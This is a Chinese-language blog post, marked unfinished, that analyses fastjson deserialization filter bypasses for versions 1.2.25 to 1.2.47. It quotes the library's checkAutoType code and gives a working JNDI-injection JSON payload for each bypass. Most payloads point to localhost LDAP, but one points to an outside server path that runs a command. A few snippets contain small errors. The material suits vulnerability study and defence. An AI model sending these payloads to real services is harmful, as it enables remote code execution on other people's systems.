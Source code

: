 ```yaml
---
layout: post
date: 2025-5-8
title: "fastjson各版本绕过分析(未完)"
author: "XinYiSleep"
category: Java
---
```

<h1 id="YdP3x">1.基本信息</h1>

```
之前我们讲了1.2.24的利用，但是在1.2.25版本开始引入了一个修复这个修复大体一直延续到最新版，
autoTypeSupport这个属性默认是false,会进行黑名单和白名单的检测，说到这里有点懵不要紧，我们先对比一下1.2.24和1.2.25的修复区别是什么(图一，图二)。
```
![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/1.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/2.png)

```
1.2.24中是直接loadClass了，但是在1.25中以及之后执行了checkAutoType(代码一)，
其实这段代码很恶心哈，因为没有else很难知道他像到底干什么(可能人家就是不想让你读懂)。
```
```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass) {
    if (typeName == null) {
        return null;
    } else {
        String className = typeName.replace('$', '.');
        if (this.autoTypeSupport || expectClass != null) {
            int i;
            String deny;
            for(i = 0; i < this.acceptList.length; ++i) {
                deny = this.acceptList[i];
                if (className.startsWith(deny)) {
                    return TypeUtils.loadClass(typeName, this.defaultClassLoader);
                }
            }

            for(i = 0; i < this.denyList.length; ++i) {
                deny = this.denyList[i];
                if (className.startsWith(deny)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }

        Class<?> clazz = TypeUtils.getClassFromMapping(typeName);
        if (clazz == null) {
            clazz = this.deserializers.findClass(typeName);
        }

        if (clazz != null) {
            if (expectClass != null && !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            } else {
                return clazz;
            }
        } else {
            //黑名单匹配到直接报错了
            if (!this.autoTypeSupport) {
                String accept;
                int i;
                for(i = 0; i < this.denyList.length; ++i) {
                    accept = this.denyList[i];
                    if (className.startsWith(accept)) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }
                }
                //白名单
                for(i = 0; i < this.acceptList.length; ++i) {
                    accept = this.acceptList[i];
                    if (className.startsWith(accept)) {
                        clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader);
                        if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                            throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                        }

                        return clazz;
                    }
                }
            }

            if (this.autoTypeSupport || expectClass != null) {
                clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader);
            }

            if (clazz != null) {
                if (ClassLoader.class.isAssignableFrom(clazz) || DataSource.class.isAssignableFrom(clazz)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }

                if (expectClass != null) {
                    if (expectClass.isAssignableFrom(clazz)) {
                        return clazz;
                    }

                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }
            }

            if (!this.autoTypeSupport) {
                throw new JSONException("autoType is not support. " + typeName);
            } else {
                return clazz;
            }
        }
    }
}
```
<h1 id="XiOxB">2.各个版本绕过分析</h1>

<h3 id="MyfCH">2.1：需要开启autoTypeSupport</h3>
<h4 id="ymQNL">1.2.25 -1.2.41绕过</h4>
```
上面知道了默认是false,但是如果是true的话是可以执行到loadClass,这里我们设置为true，如果设置这个属性呢？
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
静态代码块进行了实例，那么直接执行setAutoTypeSupport方法就可了。
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/3.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/3.5.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/4.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/5.png)

```java

好那我们就直接用1.2.24的payload
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
String A="{\"@type\":\"java.lang.NoSuchMethodExceptionl\",\"dataSourceName\":\"ldap://127.0.0.1:1234/ExportObject\",\"autoCommit\":\"false\" }";
JSON.parseObject(A);
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/6.png)

```
咦，怎么报错了，这里其实有认真看上面代码一的话应该知道其实是有很名单的(图一，图二)，
那么应该怎么办呢？我们看图三我们知道上面设置autoTypeSupport这个属性true,所以可以直接进入，并且可以看到判断
前面是L后面是;就会截取中间的内容重新执行并且返回，就可以绕过了(代码一)。
```
![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/7.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/8.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/9.png)

```java

ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
String A="{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"ldap://127.0.0.1:1234/ExportObject\",\"autoCommit\":\"false\" }";
JSON.parseObject(A);
```
<h4 id="V8ERG">1.2.25-1.2.42绕过</h4>
```
在1.2.42开始黑名单采用hash进行比较(图一)，为什么这样呢？原因很简单就是不想让你读懂，不过没关系在github中已经有大佬爆破出来很多了项目地址 [https://github.com/LeadroyaL/fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)
,为了方式匹配我们把之前payload L ; 再写一遍就行了反正他会循环执行直到你前面会面没有 L ；为止(图二)，之后进入contextClassLoader.loadClass动态加载然后returm,最终payload(代码一)。
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/10.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/11.png)

```java

ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
String A="{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"dataSourceName\":\"ldap://127.0.0.1:1234/ExportObject\",\"autoCommit\":\"false\" }";
JSON.parseObject(A);
```
<h4 id="Cl9vb">1.2.25-1.2.43绕过</h4>
```
说起这个绕过，其实在上面进行分析的时候我截图中是有43这个版本绕过的代码的，其实很简单，之前我们1是前面L 后面；绕过，
但是上面还有一个分支(图一)，但是会出现一个问题会报错(图二)，但是这个报错其实是底层的报错主要就是告诉你格式有问题根据报错修改一下就ok了，
最终payload代码一
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/12.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/13.png)

```java

ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
//逗号前面多了[{
String A="{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\"dataSourceName\":\"ldap://127.0.0.1:1234/ExportObject\",\"autoCommit\":\"false\" }";
JSON.parseObject(J);
```

<h4 id="z8AMQ">1.2.25-1.2.45绕过</h4>
```
org.apache.ibatis.datasource.jndi.JndiDataSourceFactory
这个类是Mybatis里面的所以先要maven
**version：3.x.x系列<3.5.0的版本**
<dependency>
    <groupId>org.mybatis</groupId>
    <artifactId>mybatis</artifactId>
    <version>3.4.6</version>
</dependency>
```

```
这里就很有意思了，我们之前的打法是从代码中绕过，而45中不需要绕过，或者说不算绕过因为在45中黑名单是没有org.apache.ibatis.datasource.jndi.JndiDataSourceFactory，在46中加上了他，所以我们知道这个类是有问题的，再说一句废话我们知道会执行Setter所以找Setter,在setProperties中我们找到了感兴趣的点（图一），这不就是JNDI注入吗？没错是的，只需要键是data_source就能执行到最下面的lookup,首先得确实
Properties是不是一个泛型，当然他肯定是的(图二)，并且是Object,那就爽歪歪了，所以最终payload代码一，这里可以简单思考一下是不是在图一中我们可以走到第一个lookup呢？答案是当然可以代码二。
```

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/14.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.25/15.png)

```java

String payload ="{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\"
,\"properties\":{\"data_source\":\"ldap://localhost:1234/Exploit\"}}";
JSON.parseObject(payload);
```
```java
String payload ="{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",
\"properties\":{\"data_source\":\"11111111111111111\",\"initial_context\":\"ldap://134.122.16.0:1389/TomcatBypass/Command/dir\"}}";
JSON.parseObject(payload);
```
<h4 id="QJM6t"></h4>
<h3 id="pn5nv">2.2：无需开启autoTypeSupport</h3>
<h4 id="Qd1NN">1.2.25-1.2.47绕过</h4>
```
这个就有点难理解了，建议自己跟着走一遍。
1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport反而不能成功触发；
1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用；
```

```java

String payload  = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},"
        + "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\","
        + "\"dataSourceName\":\"ldap://localhost:1389/Exploit\",\"autoCommit\":true}}";
JSON.parseObject(payload);
```

